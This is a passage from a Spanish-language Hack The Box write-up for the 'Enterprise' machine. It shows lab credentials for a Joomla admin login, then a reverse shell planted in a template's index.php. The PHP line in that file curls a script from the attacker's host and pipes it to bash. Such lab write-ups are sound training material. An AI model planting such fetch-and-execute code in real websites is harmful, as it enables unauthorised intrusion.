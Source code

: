 Y con las credenciales **geordi.la.forge:ZD3YxfnSjezg67JZ** logramos entrar al sitio como usuario **Super Users**:

![112page8080_administratorPANEL_dash](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112page8080_administratorPANEL_dash.png)

...

### Reverse Shell www-data Joomla

Listoneeeees, jugando con [este recurso](https://www.hackingarticles.in/joomla-reverse-shell/) obtenemos ejecución remota de comandos, simplemente debemos modificar un template (modificaré el archivo `index.php` del template **beez3**) y dirigirnos a el para que el código sea ejecutado...

Usamos el mismo payload de antes (`curl` a nuestro servidor) solo que ahora cambiamos el puerto por el cual obtendremos la Reverse Shell:

```php
...
system("/usr/bin/curl http://10.10.14.17:8000/rev.sh | bash");
...
```

Hacemos una peticion hacia la ruta: `http://10.10.10.61:8080/templates/beez3/index.php` y obtenemos:

![112bash_wwwdata_joomla_RevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112bash_wwwdata_joomla_RevSH.png)

Bien. Estamos en otro host, el `a7018bfdc454`. 

...

## Movimiento lateral : www-data (docker) -> www-data (host) [#](#movimiento-lateral-wwwdata-doc-host) {#movimiento-lateral-wwwdata-doc-host}
